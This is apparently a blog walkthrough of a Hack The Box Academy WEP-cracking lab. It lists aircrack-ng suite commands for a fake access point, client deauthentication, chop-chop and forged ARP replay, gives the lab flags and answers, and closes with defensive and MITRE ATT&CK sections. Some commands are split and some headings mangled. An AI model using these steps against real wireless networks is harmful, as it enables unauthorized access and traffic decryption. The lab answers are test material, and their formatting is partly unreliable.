
*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


### to create fake access point to the network

```bash
sudo airbase-ng -c 1 -a D8:D6:3D:EB:29:D5 -e "HackTheWifi"
```
wlan0mon -W 1 -L
to create fake access point to the network:

*the screenshot was taken after the task was completed – the output 'Client
<MAC-address> associated with the network' is a result of the next command –
which as you can see – was done several times. *

Next – on a new terminal (while we keep the fake access point running) – we
run
```bash
sudo aireplay-ng -0 10 -a D8:D6:3D:EB:29:D5 -c
```
2E:CF:5C:AC:F6:9D  wlan0mon
to make the client connect to our fake access point:

*That command should trigger the 'client associated messages', and possibly
generate the arp requests in the second terminal. *

Finally, on a new terminal -we can start cracking:
```bash
sudo aircrack-ng -b D8:D6:3D:EB:29:D5 WEP-01.cap
```


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


*_Figure 14.3 — Lab execution and output verification (Page 14)_*


### Additional WEP Cracking

> **Lab Question (Page 15)**: Use aircrack-ng to crack the WEP key from the file located at "/opt/WEP .ivs" and submit the found key as answer . (Format: XX:XX)
>
> **Flag / Answer**: `AE:5B:7F:3A:03:D0:AF:9B:F6:8D:A5:E2:C7`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we run:
```bash
aircrack-ng -K /opt/WEP.ivs
```


*
*


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


### need to re-give it here). With sudo

> **Lab Question (Page 16)**: Perform the advanced WEP cracking as described in this section to decrypt the file located at "/opt/WEP-01.cap" and submit the 5-character password.
>
> **Flag / Answer**: `xampp`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we run the script in the section's guide (script is directly there, no
need to re-give it here). With sudo:
```bash
sudo python3 script.py
```


*
*


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


### Capstone: Skills Assessment

> **Lab Question (Page 17)**: What is the name of the target BSSID?
>
> **Flag / Answer**: `PixelForge`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we wills start by setting monitor mode on and scanning channel 1 as
done on previous sections, outputting the results to 'WEP-10.cap'
```bash
sudo airmon-ng start wlan0;
sudo airodump-ng wlan0mon -c 1 -w WEP;
```


And we take the ESSID – the network's name.

Question: What is the WEP KEY for this network? (Format: XX:XX:XX:XX:XX)
Answer: 1B:2A:5A:4C:6A
Method: we can notice from the screenshot above that the BSSID of the
network is 'B2:A6:3D:EB:23:A3', and the MAC address of the client is
'32:78:B4:75:26:90'.

Now – we will proceed to use the 'Korek Chop Chop attack'.
First – run the attack:
```bash
sudo aireplay-ng -4 -b B2:A6:3D:EB:23:A3 -h
```
32:78:B4:75:26:90 wlan0mon


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


### the broadcast IP

*
*

We obtain output file 'replay_dec-1229-113102.xor'.

Next – forge the ARP request using the network and client MAC addresses, and
the broadcast IP:
```bash
sudo packetforge-ng -0 -a B2:A6:3D:EB:23:A3 -h
```
32:78:B4:75:26:90 -k 255.255.255.255 -l 255.255.255.255 -y
replay_dec-1229-113102.xor -w forgedarp.cap


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


*_Figure 18.3 — Lab execution and output verification (Page 18)_*


*_Figure 18.4 — Lab execution and output verification (Page 18)_*


### Next – we run the interactive packet replay

Next – we run the interactive packet replay:
```bash
sudo aireplay-ng -2 -r forgedarp.cap -h 32:78:B4:75:26:90
```
wlan0mon


Next – we run the ARP request replay attack, and make sure there is an ARP
request got (value greater than 0)
```bash
sudo aireplay-ng -3 -b B2:A6:3D:EB:23:A3 -h
```
32:78:B4:75:26:90 wlan0mon
in here the value is 1.


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


### obtaining the key

> **Lab Question (Page 20)**: Connect to the WiFi network using the found key and retrieve the flag from 192.168.1.1.
>
> **Flag / Answer**: `4c48e724be394b5ab14e776b2af08193`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we stop all running terminals, and stop the monitoring:
```bash
sudo airmon-ng stop wlan0mon;
```


Once the monitoring is stopped – we can connect to 'PixelForge':


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


*_Figure 20.3 — Lab execution and output verification (Page 20)_*


### And enter the obtained key (without the colons)

And enter the obtained key (without the colons):

→


And obtain the flag:


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


*_Figure 21.3 — Lab execution and output verification (Page 21)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1040, T1557` |
| **Common Weakness Enumerations** | `CWE-327, CWE-328` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1040`](https://attack.mitre.org/techniques/T1040/) | **Network Sniffing** | `Credential Access` | Capturing weak Initialization Vectors (IVs) via ARP request replay |
| [`T1557`](https://attack.mitre.org/techniques/T1557/) | **Adversary-in-the-Middle** | `Credential Access` | Decrypting RC4 keystreams and recovering WEP root key |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-327`: Use of a Broken or Risky Cryptographic Algorithm (RC4 in WEP)](https://cwe.mitre.org/data/definitions/327.html)
- [`CWE-328`: Use of Weak Hash / 24-bit Initialization Vector](https://cwe.mitre.org/data/definitions/328.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Completely decommission and ban WEP encryption across all legacy enterprise and consumer wireless hardware.
- Deploy 802.1X network access control with dynamic encryption keys generated per session (EAP-TLS/PEAP).
- Monitor RF spectrum for high-frequency ARP packet injection attacks (`aireplay-ng -3`).


---

## Authoritative References & Recommended Reading

- [HTB Academy: Wired Equivalent Privacy (WEP) Attacks](https://academy.hackthebox.com/module/132) — *Official Hack The Box curriculum track*
- [Fluhrer, Mantin, Shamir (FMS) Attack on WEP](https://www.cs.umd.edu/~waa/414-F11/IntroToCrypto.pdf) — *Foundational cryptanalytic attack on RC4 key scheduling*
- [Aircrack-ng PTW Attack Documentation](https://www.aircrack-ng.org/doku.php?id=ptw) — *Pyshkin, Tews, Weinmann fast WEP key recovery paper*
- [IEEE 802.11i Security Amendment](https://standards.ieee.org/) — *Standard deprecating WEP in favor of WPA/WPA2/WPA3*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-40-wifi-penetration-testing-basics/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 40: Wi-Fi Penetration Testing Basics & 802.11 Analysis</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 41 of 41</span>
  </div>
  <div class="ff-nav-placeholder"></div>
</div>
